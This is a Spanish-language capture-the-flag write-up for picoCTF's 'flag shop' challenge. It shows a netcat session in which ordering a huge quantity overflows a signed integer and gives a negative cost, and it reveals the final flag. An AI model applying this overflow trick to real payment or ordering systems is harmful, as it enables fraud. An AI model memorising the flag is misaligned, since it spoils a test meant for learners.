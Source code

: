 ***
### Descripción:
There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/64e724ad327f83ad833d9c6baa072b1f/store.c). Connect with `nc jupiter.challenges.picoctf.org 4906`.

### Pistas: 
```
1.- Two's compliment can do some weird things when numbers get really big!
```

### Solución:
- **Comenzamos descargando el archivo como es costumbre, al tenerlo nos conectaremos a `nc jupiter.challenges.picoctf.org 4906`, **
``` bash
estefania@estefania-IdeaPad-3-14ALC6:~$ nc jupiter.challenges.picoctf.org 4906
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2400000

The final cost is: -2134967296

Your current balance after transaction: 2134968396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_9c5fac9b}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
^C
estefania@estefania-IdeaPad-3-14ALC6:~$ 

```

### Bandera:
```
picoCTF{m0n3y_bag5_9c5fac9b}
```

